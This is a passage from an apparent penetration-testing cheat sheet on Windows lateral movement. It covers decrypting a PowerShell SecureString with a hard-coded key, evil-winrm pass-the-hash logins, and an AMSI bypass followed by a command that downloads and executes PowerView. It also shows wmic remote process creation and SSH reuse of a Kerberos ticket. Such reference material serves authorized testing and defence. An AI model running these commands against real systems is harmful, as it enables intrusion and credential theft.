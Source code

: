 ```ps1
$aesKey = (49, 222, 253, 86, 26, 137, 92, 43, 29, 200, 17, 203, 88, 97, 39, 38, 60, 119, 46, 44, 219, 179, 13, 194, 191, 199, 78, 10, 4, 40, 87, 159)
$secureObject = ConvertTo-SecureString -String "76492d11167[SNIP]MwA4AGEAYwA1AGMAZgA=" -Key $aesKey
$decrypted = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secureObject)
$decrypted = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($decrypted)
$decrypted
```

## WinRM Protocol

**Requirements**:

- Port **5985** or **5986** open.
- Default endpoint is **/wsman**

If WinRM is disabled on the system you can enable it using: `winrm quickconfig`

The easiest way to interact over WinRM on Linux is with [Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```powershell
evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
evil-winrm -i 10.0.0.20 -u username -H HASH
evil-winrm -i 10.0.0.20 -u username -p password -r domain.local

*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```

## WMI Protocol

```powershell
PS C:\> wmic /node:target.domain /user:domain\user /password:password process call create "C:\Windows\System32\calc.exe”
```

## SSH Protocol

:warning: You cannot pass the hash to SSH, but you can connect with a Kerberos ticket (Which you can get by passing the hash!)

```ps1
cp user.ccache /tmp/krb5cc_1045
ssh -o GSSAPIAuthentication=yes user@domain.local -vv
```

## Other methods

### PsExec - Sysinternal

From Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)
